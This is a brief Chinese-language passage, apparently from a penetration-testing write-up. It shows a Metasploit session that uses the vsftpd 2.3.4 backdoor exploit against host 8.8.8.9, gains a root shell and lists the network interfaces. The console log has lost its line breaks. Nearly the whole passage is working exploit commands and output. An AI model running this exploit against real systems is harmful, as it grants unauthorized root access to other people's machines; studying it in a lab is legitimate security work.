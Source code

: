 发现8.8.8.9(SK)这台机器可能有漏洞,用msf模块尝试getshell:

```
msf &gt; msf &gt; use exploit/unix/ftp/vsftpd_234_backdoor msf exploit(vsftpd_234_backdoor) &gt; show options Module options (exploit/unix/ftp/vsftpd_234_backdoor):   Name   Current Setting  Required  Description   ----   ---------------  --------  -----------   RHOST                   yes       The target address   RPORT  21               yes       The target portExploit target:   Id  Name   --  ----   0   Automaticmsf exploit(vsftpd_234_backdoor) &gt; set rhost 8.8.8.9rhost =&gt; 8.8.8.9msf exploit(vsftpd_234_backdoor) &gt; run[*] 8.8.8.9:21 - Banner: 220 (vsFTPd 2.3.4)[*] 8.8.8.9:21 - USER: 331 Please specify the password.[+] 8.8.8.9:21 - Backdoor service has been spawned, handling...[+] 8.8.8.9:21 - UID: uid=0(root) gid=0(root)[*] Found shell.[*] Command shell session 4 opened (Local Pipe -&gt; Remote Pipe) pwd/iduid=0(root) gid=0(root)ifconfigeth0      Link encap:Ethernet  HWaddr 08:00:27:56:f1:7c            inet addr:8.8.8.9  Bcast:8.8.8.255  Mask:255.255.255.0          inet6 addr: fe80::a00:27ff:fe56:f17c/64 Scope:Link          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1          RX packets:10843 errors:0 dropped:0 overruns:0 frame:0          TX packets:2779 errors:0 dropped:0 overruns:0 carrier:0          collisions:0 txqueuelen:1000           RX bytes:1081842 (1.0 MB)  TX bytes:661455 (645.9 KB)          Base address:0xd010 Memory:f0000000-f0020000 lo        Link encap:Local Loopback            inet addr:127.0.0.1  Mask:255.0.0.0          inet6 addr: ::1/128 Scope:Host          UP LOOPBACK RUNNING  MTU:16436  Metric:1          RX packets:18161 errors:0 dropped:0 overruns:0 frame:0          TX packets:18161 errors:0 dropped:0 overruns:0 carrier:0          collisions:0 txqueuelen:0           RX bytes:5307479 (5.0 MB)  TX bytes:5307479 (5.0 MB)
```


